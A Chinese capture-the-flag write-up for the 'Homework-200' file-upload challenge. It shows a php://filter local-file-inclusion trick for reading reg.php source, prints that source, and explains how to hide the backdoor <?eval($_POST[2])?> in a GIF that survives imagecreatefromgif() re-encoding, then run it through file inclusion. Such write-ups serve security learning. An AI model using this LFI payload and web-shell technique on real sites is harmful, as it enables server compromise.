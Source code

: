 ##pt &nbsp; &nbsp;Homework-200 （文件上传类题目）  
####解题过程：
*  先使用'php://filter/read=convert.base64-encode/resource='语句读取登录页面reg.php源码。   
将homework.sctf.xctf.org.cn/homework.php?homework=homework.txt改为homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=reg.php  发现不行，:-( 反馈为 plz don't read my code， 猜测应该是过滤了read,想办法绕过，尝试Read,顺利读出reg.php的base64格式。[∩_∩]  解码后如下：   
```  
    <html>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    </html>
    <?php
    include('./config.php');
    session_start();
    function make_password()
    {
    	$password="";
    	$chars="abcdefghijklmnopqrstuvwxyz1234567890-=!@#$%^&*_";
    	for($i=0;$i<8;$i++)
    	{
    		$password.=$chars[rand(0,46)];
    	}
    	return $password;
    }
    
    if(isset($_POST['captcha_code'])){
    	// code for check server side validation
            $captcha_code = (string)$_POST['captcha_code'];
    	if(empty($_SESSION['captcha_code'] ) || strcasecmp($_SESSION['captcha_code'], $captcha_code) != 0){  
    		 exit('验证码错误');
    	}else{// Captcha verification is Correct. Final Code Execute here!		
    		
    	}
    } else {
    	exit('Get out!');
    }
    //unset($_SEESION['captcha_code']);
    session_destroy();
    if(isset($_POST['upload'])){
    $filename = $_FILES['uploaded']['name'];
    $filetype = $_FILES['uploaded']['type'];
    $filesize = $_FILES['uploaded']['size'];
    $tmpname = $_FILES['uploaded']['tmp_name'];
    $uploaddir = './upload/';
    $target_path = $uploaddir.basename($filename);
    $fileext = substr(strrchr($filename,"."),1);
    if(($fileext == 'gif')&&($filetype == "image/gif")){
    	{
    		if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	}
    	$im =imagecreatefromgif($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".gif";
    	$newimagepath = $uploaddir.$newfilename;
    	imagegif($im,$newimagepath);
    	unlink($target_path);
    }else if(($fileext == 'jpg')&&($filetype == "image/jpeg"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".jpg";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }else if (($fileext=='png')&&($filetype=="image/png"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".png";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }
    }
    if(isset($_POST['name'])&&isset($_POST['age']))
    {
    	$name=substr($_POST['name'],0,6);
    	$age=intval($_POST['age']);
    	$username=file_get_contents('./id.txt');
    	$password=make_password();
    	file_put_contents('./id.txt',intval($username)+1);
    	mysql_query("insert into info(username,password,name,pic,age)values('$username',md5('$password'),'$name','$newimagepath',$age)");
    	mysql_close($con);
    	print("生成成功，学号:$username,密码：$password");
    	print("<a href='./index.html'>回主页</a>");
    }
    ?>
```
*  然和呢，发现这题主要是绕过createimagefromgif()函数    
想到这个知识点：https://www.secgeek.net/bookfresh-vulnerability/     
先尝试了jpg、png、gif格式的图片，发现只有gif可以，接下来如何构造自己嵌入了php代码的gif图片呢？   
文章中提到的方法是：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?> 留作后门   
这张图乜放进来，便于大家尝试  
![示例图片](img/heng.png)
上传成功后在网页上输出经过处理后的和自己上传的那张一模一样的图片，在当前目录下查看这张图片: homework.sctf.xctf.org.cn/homework.php?homework=./upload/1305771078.gif或者homework.sctf.xctf.org.cn/homework.php?homework=upload/1305771078.gif
网页上出现一堆怪异的字符，然后留的后门就有用啦  
推荐firefox下一个非常好用的插件hackbar  
![图片1](img/1.png)  
![图片2](img/2.png)  
![图片3](img/3.png)  

###收获总结  
1.  在某些情况下使用php://filter/read=convert.base64-encode/resource=方法查看php源代码  
 问：在什么情况下可以这么干呢  
 当这个某个url中有参数时，即get文件时，可以将参数值替换成php://filter/read=convert.base64-encode/resource=想要的.php,本来是要get到页面所指定的文件，但由于我们的替换和原本代码的不安全，使得有些情况下可以成功的读到php源代码*^_^* 
2.  get到一个php中不安全的函数imagecreatefromgif()   
 相应的解决办法：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?>（你想要实现的语句）  

###启示   
 学习和平时刷题时，注意积累PHP中容易出安全问题的函数，并记下为什么出安全问题，以及怎样解决。  
  这样，以后在做PHP相关的题型时，根据代码便可快速知道是什么地方出了问题，然后找到对策。   
  另外，即使不能获取到源代码，由于积累，也可大概判断是什么函数导致安全故障。
